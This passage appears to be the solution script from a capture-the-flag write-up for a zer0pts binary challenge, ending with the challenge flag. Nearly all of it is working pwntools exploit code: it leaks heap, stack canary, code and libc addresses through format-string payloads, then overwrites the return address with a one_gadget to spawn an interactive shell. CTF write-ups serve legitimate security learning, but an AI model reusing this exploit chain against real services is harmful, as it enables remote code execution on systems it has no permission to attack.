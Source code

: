```python
    else:
        r.sendafter('Text: ', data)
        sleep(0.1)

def closebook():
    r.sendlineafter('> ', '4')

openbook()
readbook()
editbook(0, 'a'*0x200, nl=0)
readbook()
r.recvuntil('a'*0x200)
heap = u64(r.recvuntil('*', drop=True).ljust(8, '\x00'))
log.success('heap: ' + hex(heap))

editbook(0x200, p64(0) + p64(1) + p64(0)*2 + '%10$p\x00', nl=0)
openbook()
canary = int(r.recvuntil(':', drop=True), 16)
log.success('canary: ' + hex(canary))

editbook(0x200, p64(0) + p64(1) + p64(0)*2 + '%11$p\x00', nl=0)
openbook()
stack = int(r.recvuntil(':', drop=True), 16)
log.success('stack: ' + hex(stack))

editbook(0x200, p64(0) + p64(1) + p64(0)*2 + '%14$p\x00', nl=0)
openbook()
code = int(r.recvuntil(':', drop=True), 16) - 0x1045
log.success('code: ' + hex(code))

editbook(0x200, p64(0) + p64(1) + p64(0)*2 + '%22$p\x00', nl=0)
openbook()
libc = int(r.recvuntil(':', drop=True), 16) - 0x21b97
log.success('libc: ' + hex(libc))
one_gadget = libc + 0x4f322

editbook(0x200, p64(0) + p64(0) + p64(0)*2 + '/dev/stdin\x00', nl=0)
openbook()
readbook()
payload = p64(canary)*66 + p64(0) + p64(one_gadget)
payload = payload.ljust(65535, '\x00')
r.sendline(payload)
r.interactive()
```

Flag: `zer0pts{l0g1c4l_pwn_15_4_l0t_0f_fun}`
